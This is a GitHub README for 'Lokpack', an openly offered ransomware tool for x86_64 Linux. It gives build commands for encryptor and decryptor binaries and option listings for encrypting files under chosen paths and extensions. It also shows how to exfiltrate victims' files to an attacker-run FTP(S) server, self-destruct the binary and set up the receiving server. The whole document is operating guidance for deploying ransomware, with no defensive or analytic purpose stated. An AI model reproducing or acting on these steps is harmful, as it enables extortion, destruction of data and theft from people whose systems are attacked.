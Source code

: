 # Lokpack | Ransomware tooling for x84_64 Linux
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x86_64 Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable RSA-4096 asymmetric encryption
- Multi-threaded (a.k.a. fast)

## Build
Required libraries/tools:
- A (x86_64) Linux system
- gcc and other build tools
- curl (and headers)
- openssl (and headers)

> [!WARNING]
> Do NOT build from the latest commit, check out the latest tag
> or download the [latest release](https://github.com/ngn13/ezcat/tags).

To generate static builds, you will need static libraries of curl and openssl,
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh -static
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Options
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
    --debug    => Enable debug output
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```
If you want to encrypt all files with all extensions, set `--exts` to `ALL`.

Decryptor does not have any options, but can specify the target directory, by default it searches the entire file system (`/`):
```bash
./decryptor /var
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Resources
- [C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool)
- [CURL ftpupload](https://curl.se/libcurl/c/ftpupload.html)
- [CURL options](https://curl.se/libcurl/c/easy_setopt_options.html)
- [OpenSSL RSA Demo](https://github.com/openssl/openssl/blob/master/demos/encrypt/rsa_encrypt.c)
